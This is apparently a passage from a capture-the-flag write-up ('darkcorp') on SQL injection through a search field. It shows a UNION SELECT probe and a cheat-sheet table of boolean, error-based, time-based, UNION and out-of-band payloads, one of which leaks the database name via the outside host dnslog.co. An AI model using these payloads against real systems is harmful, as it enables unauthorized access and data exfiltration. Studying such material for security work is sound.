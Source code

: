 
and we are in lets check what we can do now!! For trigger `search` tab i used `'`  and i got this.

### SQL Injection

![alt text](../assets/images/darkcorp7.png)

lets try with something easier `' UNION SELECT version()--`

![alt text](../assets/images/darkcorp8.png)

| **Test** | **Payload** | **Success Indicators** |
| --- | --- | --- |
| **Boolean Blind** | `' AND 1=1--` | Normal page |
|  | `' AND 1=2--` | Error/different page |
| **Error Based** | `'/(SELECT * FROM users)--` | Error reveals data |
| **Time Based** | `'; SELECT pg_sleep(10)--` | 10s delay |
| **UNION** | `' UNION SELECT NULL,NULL--` | Count columns |
| **Out of Band** | Use `dnslog.co` + `(SELECT extractvalue(1,concat(0x7e,(SELECT database()),0x7e)))` | DNS lookup |

